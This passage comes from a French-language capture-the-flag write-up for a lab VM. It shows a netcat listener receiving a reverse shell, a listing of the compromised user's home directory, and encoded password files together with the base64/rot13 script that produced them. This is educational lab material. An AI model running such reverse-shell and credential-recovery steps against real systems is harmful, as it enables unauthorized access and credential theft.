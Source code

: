 Et de l'autre côté... cela fonctionne bien mieux !

```console
root@blinils:~# nc -lvp 11111
listening on [any] 11111 ...
192.168.56.102: inverse host lookup failed: Unknown host
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.102] 38539
bash: no job control in this shell
[admin@localhost ~]$ id
id
uid=501(admin) gid=501(admin) groups=501(admin)

[admin@localhost ~]$ ls -al
ls -al
total 656
drwxrwxrwx. 2 admin     admin       4096 Feb 15 17:08 .
drwxr-xr-x. 5 root      root        4096 Nov 19  2015 ..
-rwxrwxrwx  1 admin     admin          8 Feb 18 09:15 .bash_history
-rwxrwxrwx. 1 admin     admin         18 Sep 22  2015 .bash_logout
-rwxrwxrwx. 1 admin     admin        176 Sep 22  2015 .bash_profile
-rwxrwxrwx. 1 admin     admin        124 Sep 22  2015 .bashrc
-rwxrwxrwx  1 admin     admin      45224 Nov 18  2015 cat
-rwxrwxrwx  1 admin     admin      48712 Nov 18  2015 chmod
-rwxrwxrwx  1 admin     admin        737 Nov 18  2015 cronjob.py
-rwxrwxrwx  1 admin     admin         21 Nov 18  2015 cryptedpass.txt
-rwxrwxrwx  1 admin     admin        258 Nov 18  2015 cryptpass.py
-rwxrwxrwx  1 admin     admin      90544 Nov 18  2015 df
-rwxrwxrwx  1 admin     admin      24136 Nov 18  2015 echo
-rwxrwxrwx  1 admin     admin     163600 Nov 18  2015 egrep
-rwxrwxrwx  1 admin     admin     163600 Nov 18  2015 grep
-rwxrwxrwx  1 admin     admin      85304 Nov 18  2015 ps
-rw-r--r--  1 fristigod fristigod     25 Nov 19  2015 whoisyourgodnow.txt
```

## Élévation de privilèges (fristigod)

Deux fichiers sont particulièrement intéressants : ```cryptedpass.txt``` (admin) et ```whoisyourgodnow.txt``` (fristigod).

```console
[admin@localhost ~]$ cat cryptedpass.txt && cat whoisyourgodnow.txt
cat cryptedpass.txt && cat whoisyourgodnow.txt
mVGZ3O3omkJLmy2pcuTq
=RFn0AKnlMHMPIzpyuTI0ITG
```

Il doit s'agir de deux mots de passe probablement encodés à l'aide du script Python ```cryptpass.py``` qui ressemble à ceci.

```console
[admin@localhost ~]$ cat cryptpass.py
cat cryptpass.py
#Enhanced with thanks to Dinesh Singh Sikawar @LinkedIn
import base64,codecs,sys

def encodeString(str):
    base64string= base64.b64encode(str)
    return codecs.encode(base64string[::-1], 'rot13')

cryptoResult=encodeString(sys.argv[1])
print cryptoResult
```
